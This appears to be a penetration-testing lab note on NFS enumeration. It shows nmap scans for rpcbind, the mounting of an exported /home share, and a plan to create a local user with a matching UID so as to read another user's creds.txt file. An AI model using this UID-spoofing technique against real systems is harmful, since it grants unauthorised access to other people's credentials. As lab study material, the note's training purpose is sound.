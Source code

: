 # NFS Enumeration

```
nmap -v -p 111 10.11.1.1-254 // nmap scan for rpcbind
nmap -p 111 --script nfs* 10.11.1.72 // use all nfs scripts
...
Nmap scan report for 10.11.1.72

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /home 10.11.0.0/255.255.0.0
```

We can mount the home share, and then read it.

```
kali@kali:~$ mkdir home

kali@kali:~$ sudo mount -o nolock 10.11.1.72:/home ~/home/

kali@kali:~$ cd home/ && ls
jenny  joe45  john  marcus  ryuu

kali@kali:~/home$ cd marcus

kali@kali:~/home/marcus$ ls -la
total 24
drwxr-xr-x 2 1014  1014 4096 Jun 10 09:16 .
drwxr-xr-x 7 root root 4096 Sep 17  2015 ..
-rwx------ 1 1014  1014   48 Jun 10 09:16 creds.txt

kali@kali:~/home/marcus$ cat creds.txt
cat: creds.txt: Permission denied
```

We can see that creds.txt is linked to id 1014, so by making our own dummy user, we can read it.



